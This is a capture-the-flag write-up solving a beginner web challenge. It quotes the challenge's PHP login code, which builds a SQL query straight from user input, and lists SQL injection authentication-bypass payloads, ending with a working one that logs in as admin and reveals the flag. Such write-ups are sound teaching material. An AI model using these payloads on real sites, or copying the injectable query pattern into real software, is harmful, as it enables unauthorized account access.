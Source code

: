 Description: Solved by 242 teams.

Hey I just learned this thing called MySQL! My admin account should be safe now!

This challenge is clearly telling us to spew SQLi all up in their db.

Going to the website and viewing the source code, we can see on the final line the following code snippet: `<!-- source code at index.source.php -->`

Let's have a look: ``

Sweet, it looks like we have an indexed source code file that has the PHP code visible. The relevant code:
```
<?php

error_reporting(0);

if (isset($_POST['submit']) && isset($_POST['username']) && isset($_POST['password']) && $_POST['submit'] == "Login!") {
    $username = $_POST['username'];
    $password = $_POST['password'];
    include("functions.php"); // connect to mysql server

    $query = "SELECT * FROM `users` WHERE username='$username' AND password='$password'";
    $result = mysql_query($query);
    $rows = array();
    while($row = mysql_fetch_array($result)) {
        $rows[] = $row;
    }
    if (count($rows) != 1) {
        echo "<div class='alert alert-danger'>No accounts found with that username. <a href='index.php'>Try again?</a></div>";
    } else {
        $row = $rows[0];
        echo "<div class='alert alert-success'>Welcome, <code>" . $row['username'] . "</code>! ";
        if ($row['username'] == "admin") {
            echo "Your flag is <code>$flag</code>.";
        }
        echo "</div>";
    }

} else {
    ?>
```

What we are really going to focus on is only the `SELECT` query:

```
$query = "SELECT * FROM `users` WHERE username='$username' AND password='$password'";
```

This challenge seemed pretty buggy and bitchy about how it wanted it to be solved. We obviously will use admin as the username, since it's a valid user in the table (according to the description). There are plenty of queries that I tried on the password field, which were definitely valid, but the server was neglecting to accept it.

For example:
`' OR 'a' = 'a'#--` `' OR 1=1/*` etc, etc

Eventually what I had to end up doing was comparing back to the username table again:
`' or username = 'admin'#--`

This makes our query:
```
$query = "SELECT * FROM `users` WHERE username='admin' AND password='' or username = 'admin'#=='"
```

The server hapilly accepts this query and responds accordingly with the `$flag` variable:

`Welcome, admin! Your flag is easyctf{54771309-67e5-4704-8743-6981a40b}.`
